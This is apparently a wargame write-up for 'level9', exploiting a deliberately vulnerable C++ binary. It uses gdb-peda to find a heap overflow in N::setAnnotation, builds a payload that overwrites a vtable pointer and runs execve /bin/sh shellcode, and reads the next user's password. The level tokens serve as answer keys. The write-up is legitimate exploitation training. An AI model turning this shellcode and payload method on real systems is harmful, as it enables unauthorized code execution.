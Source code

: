 # Level9 - Read asm of CPP file

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level9 | `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a` |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level9

```shell
./level9
```

Nothing happened

Lets debug the binary

```shell
(gdb) info functions
0x080485f4  main
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```

See our assembly interpretation in [source file](../source.c)

The main difficulty here is the C++ language, that translates class method in not obvious ASM names. For example `_ZN1NplERS_` => `N::operator+(N&)`.

We can see a function `N::setAnnotation(char*)`, that uses `memcpy` and then the register `edx` is executed.

The idea is to use `memcpy` to create a buffer overflow and then execute a shellcode.

Lets search the offset

```shell
gdb-peda$ pset arg cyclic_pattern(200)
gdb-peda$ run
gdb-peda$ pattern search
> Registers contain pattern buffer:
  EAX+0 found at offset: 108
  Pattern buffer found at:
  0x0804a00c : offset    0 - size  200 ([heap])
```

While debugging we confirm the address of the buffer `a->annotation` is well 0x0804a00c, with an offset of 108.

```shell
gdb-peda$ b*0x08048677
gdb-peda$ run AAAA
gdb-peda$ ni
gdb-peda$ x/30x 0x0804a00c
  0x804a00c:      0x41414141      0x00000000      0x00000000      0x00000000
  0x804a01c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a02c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a03c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a04c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a05c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a06c:      0x00000000      0x00000005      0x00000071      0x08048848
  0x804a07c:      0x00000000      0x00000000
gdb-peda$ x/x 0x08048848
  0x8048848 <_ZTV1N+8>:   0x0804873a
gdb-peda$ x/x 0x0804873a
  0x804873a <_ZN1NplERS_>: 0x8be58955

```

We have to erase the address `0x08048848`. It will be executed by `edx`. It contains a reference to a pointer of `N::operator+(N&)` method.

We have to build an exploit with:

```bash
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" # Length: 28
PADDING=`python -c 'print("A" * 80)'` # OFFSET=108 - SHELLCODE_LENGTH=28
RETADDRESS="\x0c\xa0\x04\x08"

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

Lets try

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x6850c031
gdb-peda$ ni
  Stopped reason: SIGSEGV
  0x6850c031 in ?? ()
```

Unfortunately, this one does not work because it tries to dereference the address `0x6860c031` instead of executed it.

We have to put the address of shellcode as prefix.

Lets try again

```bash
SHELLCODE_ADDRESS="\x10\xa0\x04\x08" # Buffer address + 4
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
PADDING=`python -c 'print("A" * 76)'` # OFFSET=108 - SHELLCODE_LENGTH=28 - SHELLCODE_ADDRESS=4
RETADDRESS="\x0c\xa0\x04\x08" # Buffer address

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x804a010 # address of shellcode
gdb-peda$ x/x 0x804a010
  0x804a010:      0x6850c031 # first instructions of shellcode. Seems great !
gdb-peda$ continue
  process 9431 is executing new program: /bin/dash
$ # We have got the shell !
```

Finally we can get the pass !

```shell
~/level9 $(cat /tmp/exploit9)
$ whoami
> bonus0
$ cat /home/user/bonus0/.pass
> f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

---

## Sources

### ASM

- [What is operator new(unsigned int)? - \_Znwj](https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int)

### CPP

- [C++ Overloading (Operator and Function)](https://www.tutorialspoint.com/cplusplus/cpp_overloading.htm)
- [Man \_Exit](https://en.cppreference.com/w/cpp/utility/program/_Exit)
- [Man memcpy](http://www.cplusplus.com/reference/cstring/memcpy/)

